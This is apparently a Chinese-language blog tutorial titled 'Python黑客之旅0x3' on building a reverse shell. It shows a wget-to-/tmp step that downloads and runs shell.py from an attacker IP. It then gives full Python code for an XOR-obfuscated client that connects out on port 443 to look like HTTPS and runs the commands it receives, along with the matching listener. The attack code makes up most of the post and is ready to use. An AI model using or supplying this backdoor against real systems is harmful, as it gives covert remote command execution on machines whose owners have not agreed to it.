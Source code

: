 ```yaml
---
layout: post
title: Python黑客之旅0x3
category: Python
tags: Python黑客之旅
---
```


* TOC 
{:toc}

## 反向shell






参考阅读:[什么是反向Shell](http://os.51cto.com/art/201312/424378.htm)

这篇教程将会教你使用Python编写一个反向shell，首先我们先演示使用Python如何利用web服务器的功能，把文件从另一台主机传送过来。我们假设你有一台傀儡主机，你现在想下载傀儡机上面的的文件。那么你就可以使用shell(或meterpreter)去访问这台傀儡机，你可以通过一行Python代码把傀儡机建立成为一个web服务器，然后下载傀儡机上面的文件.

创建一个python HTTP服务器可以直接使用python的内建函数"SimpleHTTPServer"来创建，你可以使用'-m'参数直接在命令行调用模块，创建的服务器默认是监听的8000端口，但是你可以指定端口，直接在'SimpleHTTPServer'后面跟一个端口参数:

``` python
python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 80 ...
```

我们假设你没有防火墙去阻止你的连接，那么你是可以请求到这服务器的数据。你可以在任何目录里面去启动Python HTTP服务器，这样你就能够通过浏览器或者是远程客户端来访问这个目录。这里有一个简单的例子告诉你使用wget工具去获取文件,但是有些时候就会经常发现你根本没有权限在当前目录写入文件并且初始化这个脚本，但是你可以改变脚本执行的目录，下面这个例子就演示了把脚本在/tmp目录下面执行：

``` python
#使用-O参数，把文件保存在其他目录- /tmp/ 一般可写
wget -O /tmp/shell.py http://<attacker_ip>/shell.py
 
#修改权限
chmod a+x /tmp/shell.py
 
# 使用file命令检查文件是否正确
file /tmp/shell.py
 
#执行脚本
/usr/bin/python /tmp/shell.py
```

## 客户端反向shell代码

阅读下面的后门代码。编码时会使用到`socket`，`subprocess`和`sys`模块，选择`subprocess`模块原因，是因为它允许使用一个变量储存STDOUT输出的结果，之后可以在代码中的其他部分通过调用此变量访问保存的STDOUT数据。下面的代码中：所建立的连接会监听`443`端口。`443`端口经常用在**https**上，这里使用`443`端口可以起到混淆视听的作用:

``` python
#!/usr/bin/python
 
import socket,subprocess,sys
 
RHOST = sys.argv[1]
RPORT = 443
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((RHOST, RPORT))
 
while True:
     # 从socket中接收XOR编码的数据
     data = s.recv(1024)
 
     # XOR the data again with a '\x41' to get back to normal data
     en_data = bytearray(data)
     for i in range(len(en_data)):
       en_data[i] ^=0x41
 
     # 执行解码命令，subprocess模块能够通过PIPE STDOUT/STDERR/STDIN把值赋值给一个变量
     comm = subprocess.Popen(str(en_data), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
     comm.wait()
     STDOUT, STDERR = comm.communicate()
 
     # 输出编码后的数据并且发送给指定的主机RHOST
     en_STDOUT = bytearray(STDOUT)
     for i in range(len(en_STDOUT)):
       en_STDOUT[i] ^=0x41
     s.send(en_STDOUT)
s.close()
```

上面的代码中有些概念已经在[0x2](http://www.kionf.com/python/2015/10/14/pythonhacker_0x2.html)介绍过了，但是除了之前的使用socket创建一个连接之外，我们通过subprocess模块执行了一个命令，`subprocess`模块非常的方便，它允许你通过STDOUT/STDERR命令直接把值赋值给一个变量，然后我们可以通过命令把输出的进行编码然后通过socket网络发送出去。

使用OXR的好处就是你能够很容易编码你要发送过去的数据，然后通过相同的密钥来解码返回的数据，最后解码后的数据可以以明文的形式去执行命令。


## 服务端监听shell代码

现在为了利用好这个后门，我们需要一个监听脚本并且解码后端传输过来的数据，让我们通过明文很清晰的看清楚返回的数据。

下面我们将要设计一个监听器。来获取反向shell的数据，并且能够对于输入／输出的进行解码/编码，为了能够在终端上面能够很清晰的看出来，所以需要使用XOR编码:

{% highlight python %}
import socket 

s= socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(("0.0.0.0", 443))
s.listen(2)
print "Listening on port 443... "
(client, (ip, port)) = s.accept()
print " Received connection from : ", ip

while True:
 command = raw_input('~$ ')
 encode = bytearray(command)
 for i in range(len(encode)):
   encode[i] ^=0x41
 client.send(encode)
 en_data=client.recv(2048)
 decode = bytearray(en_data)
 for i in range(len(decode)):
   decode[i] ^=0x41
 print decode
 
client.close()
s.close()

{% endhighlight %}

> 这章的例子非常有趣，对于学习信息安全的朋友都喜欢shell，大家可以对代码做点修改让这个脚本也能够在window上面也能够正常运行，最后大家可以使用`base64`来代替XOR进行编码与解码，这些练习让你你更加熟练的使用python.下一章

